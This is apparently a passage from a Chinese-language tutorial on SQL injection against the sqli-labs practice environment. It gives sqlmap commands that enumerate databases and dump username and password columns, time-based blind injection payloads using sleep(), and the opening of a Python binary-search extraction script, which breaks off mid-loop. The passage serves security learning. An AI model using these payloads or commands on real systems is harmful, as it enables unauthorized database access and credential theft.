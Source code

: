 E:报错注入

U:联合注入

T:时间盲注

Q:查询

S:堆叠查询

```
python sqlmap.py -u “url” (--technique B) --dbs --batch

python sqlmap.py -u “url” --technique B -D security --tables --batch

python sqlmap.py -u “url” --technique B -D security -T users --columns --batch

python sqlmap.py -u “url” --technique B -D security -T users --C “username,password” --dump --batch

```

## 基于时间的盲注

思路其实和布尔盲注相差无几，只不过页面返回结果只有ture这一种形式，但是我们可以通过服务器的反应时间来判断

所以通过sql语句:id=1' and if(length(database())>1,sleep(5),1)--+

这段代码意思为，如果数据库名的长度大于1，则mysql休眠5s，否则查询1的结果，用这种方法来判断，猜解字符从而达到获取库名，表名，字段名

```
id=1' and if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>1,sleep(5),1)--+
```

为了方便查看相应时间我们可以通过burp

```
payload = "' and if((ascii(substr(database(), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)

payload = "' and if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)

payload = "' and if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)

payload = "' and if((ascii(substr((select password from users limit 0,1), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)

```

盲注脚本

```
import requests

url = "http://192.168.168.151/sqli-labs/Less-8/?id=1"

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        payload = "' and if((ascii(substr(database(), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)
```